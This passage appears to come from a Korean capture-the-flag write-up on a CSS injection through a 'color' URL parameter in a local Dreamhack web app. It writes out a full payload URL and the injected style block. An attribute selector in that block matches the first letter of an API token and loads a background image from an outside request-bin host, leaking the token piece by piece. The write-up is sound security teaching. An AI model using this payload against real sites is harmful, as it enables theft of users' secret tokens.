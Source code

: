 이 코드에 대해 알아보니, **color 를 인자(쿼리)** 로 받아서 **color 에 그 값을 넣겠다는 것**을 의미한다고 한다.  

즉, 위에서 봤던 base.html 의 ``<style>`` 부분에 색깔을 우리가 지정할 수 있다는 것이다.  

<img src="10.png">  

``http://127.0.0.1:8000/?color=blue`` 를 통해 위와 같이 배경색을 파란색으로 바꿀 수 있다.  

이렇게 CSS Injection 을 적용할 수 있을 것을 알 수 있고, 다음과 같이 CSS Injection 에서 **IP Ping Back** 을 할 수 있다.  

<img src="5.png">  

<img src="11.png">  

현재 mypage 에서 API Token 이 **y** 로 시작하고, API Token 이 나오는 곳의 id 가 **InputApitoken** 이다.  

따라서 이를 이용해 IP Ping Back 을 할 수 있다.

``http://127.0.0.1:8000/mypage?color=red; } input[id=InputApitoken][value^=y] { background: url(https://orfpard.request.dreamhack.games) ``

위와 같이 요청을 하면, 아래와 같이 CSS Injection 이 될 것으로 추측할 수 있다.

```html
    <style>
      body{
        background-color: red; } input[id=InputApitoken][value^=y] { background: url(https://orfpard.request.dreamhack.games) ;
      }
    </style>
```
